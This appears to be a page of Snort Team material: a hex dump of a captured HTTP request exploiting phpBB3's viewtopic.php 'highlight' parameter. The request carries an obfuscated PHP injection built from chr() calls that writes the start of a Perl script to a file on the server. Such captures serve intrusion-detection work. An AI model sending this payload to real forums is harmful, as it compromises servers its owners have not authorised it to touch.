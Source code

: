 \documentclass[english]{report}
\begin{document}
\begin{verbatim}
METHOD_DUMP, 3

00000000  47 45 54                                          |GET             |

URI_DUMP, 340

00000000  2F 70 68 70 42 42 33 2F  76 69 65 77 74 6F 70 69  |/phpBB3/viewtopi|
00000010  63 2E 70 68 70 3F 70 3D  39 30 30 32 26 73 69 64  |c.php?p=9002&sid|
00000020  3D 66 35 33 39 39 61 32  64 32 34 33 63 65 61 64  |=f5399a2d243cead|
00000030  33 61 35 65 61 37 61 64  66 31 35 62 66 63 38 37  |3a5ea7adf15bfc87|
00000040  32 26 68 69 67 68 6C 69  67 68 74 3D 27 2E 66 77  |2&highlight='.fw|
00000050  72 69 74 65 28 66 6F 70  65 6E 28 63 68 72 28 31  |rite(fopen(chr(1|
00000060  30 39 29 2E 63 68 72 28  34 39 29 2E 63 68 72 28  |09).chr(49).chr(|
00000070  31 30 34 29 2E 63 68 72  28 31 31 31 29 2E 63 68  |104).chr(111).ch|
00000080  72 28 35 30 29 2E 63 68  72 28 31 31 31 29 2E 63  |r(50).chr(111).c|
00000090  68 72 28 31 30 32 29 2C  63 68 72 28 39 37 29 29  |hr(102),chr(97))|
000000a0  2C 63 68 72 28 33 35 29  2E 63 68 72 28 33 33 29  |,chr(35).chr(33)|
000000b0  2E 63 68 72 28 34 37 29  2E 63 68 72 28 31 31 37  |.chr(47).chr(117|
000000c0  29 2E 63 68 72 28 31 31  35 29 2E 63 68 72 28 31  |).chr(115).chr(1|
000000d0  31 34 29 2E 63 68 72 28  34 37 29 2E 63 68 72 28  |14).chr(47).chr(|
000000e0  39 38 29 2E 63 68 72 28  31 30 35 29 2E 63 68 72  |98).chr(105).chr|
000000f0  28 31 31 30 29 2E 63 68  72 28 34 37 29 2E 63 68  |(110).chr(47).ch|
00000100  72 28 31 31 32 29 2E 63  68 72 28 31 30 31 29 2E  |r(112).chr(101).|
00000110  63 68 72 28 31 31 34 29  2E 63 68 72 28 31 30 38  |chr(114).chr(108|
00000120  29 2E 63 68 72 28 31 30  29 2E 63 68 72 28 31 31  |).chr(10).chr(11|
00000130  37 29 2E 63 68 72 28 31  31 35 29 2E 63 68 72 28  |7).chr(115).chr(|
00000140  31 30 31 29 2E 63 68 72  28 33 32 29 29 2C 65 78  |101).chr(32)),ex|
00000150  69 74 2E FF                                       |it..            |
\end{verbatim}

\section{The Snort Team}
\end{document}
